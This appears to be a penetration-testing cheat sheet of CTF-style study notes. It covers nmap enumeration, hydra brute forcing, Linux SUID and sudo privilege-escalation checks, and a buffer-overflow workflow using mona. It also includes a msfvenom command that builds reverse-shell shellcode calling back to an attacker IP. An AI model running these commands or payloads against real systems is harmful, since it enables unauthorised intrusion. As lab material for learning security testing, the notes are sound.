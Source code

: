 # Basic Steps

[Tyler's Notebook](https://southeasttech-my.sharepoint.com/:o:/g/personal/tyler_ramsbey_southeasttech_edu/EmrNEjx_FjRKjYRotc9TikMB7DtzCwhKWOAEovdtZADBgg?rtime=bQkHVxRr20g)

# Automatic web enum
- dirb | dirsearch
- linpeas
- wpsscan -U user -P password

# Basic network
- nmap (all ports)
  - script: locate -r nse$ | grep NAME
  - sudo nmap -p- -Pn -sS TARGET -oA AllPort
  - sudo nmap -p -Pn -A 10.10.43.161 -oA Services
  - -v Version
  - -A os, in-build scripts
  - -sC default scripts

- nmap Scrips
  - locate -r nse$ | grep mysql = nmap script

# Pictures
- strings
- exiftool

# Login
- brute force: hydra
- sqlmap


## Linux
- sudo -l
- find / -perm -u=s -type f 2>/dev/null
- find / -type f -perm -04000 -ls 2>/dev/null : SUID
- psexec.py
- LinEnum.sh + LinPeas
- lscpu
- lsblk -a
- lsusb -v
- lspci -t -v
- fidlist -l
- Groups: LXD????
- crontab
  
- Shell stabilize
  -  python3 -c 'import pty;pty.spawn("/bin/bash")'
  - python3 -c  import pty;pty.spawn('/bin/bash') 
  - export TERM=xterm


# Buffer overflow
- Upload file on Immunity Debugger (windows)
  
```
!mona config -set workingfolder c:\Users\admin\Desktop\patota
python -c 'print"A" * TOTAL'
!mona findmsp -distance TOTAL 
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l TOTAL
!mona findmsp -distance TOTAL
```

- EIP offset
- Remove "A" from script + write BBB on "retn"

```
while bad_chars
  !mona bytearray -b "\x00" = remove bad chars
  strings.py = without bad chars
  !mona compare -f c:\Users\admin\Desktop\patota\bytearray.bin  -a ESP-Address

!mona jmp -r esp -cpb "Badchars"
```

- Copy address and write it backwards
- Add padding: "\x90" * 16
- Shell code msfvenom without bad chars

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.9.1.255 LPORT=80 EXITFUNC=thread -b "\x00\x0a" -f c
```
## Convert python
dos2unix file


## Payloads
- msfvenom - reverse -f aspx -o app.aspx
- -e x86/shikata_ga_nai
- windows/shell_reverse_tcp 

## Windows
- /priv
- systeminfo
- smb read/write
  - --script=smb-enum-shares.nse,smb-enum-users.nse
- mount:
  - --script=nfs-ls,nfs-statfs,nfs-showmount
- browser cache
- scheduled task
- UAC
- Check loggings
  - sysmon enable / powershell loggging enabled ?
- echo %VARIABLE%
- Unquoted services:
  - wmic service get name,displayname,pathname,startmode | findstr /v /i "C:\Windows
- Permissions:
  - icalcs
- eventvwr

### Kerberos
- Enumerate
  - setspn -T medin -Q ​ */* = extract accounts from Service Principal Name

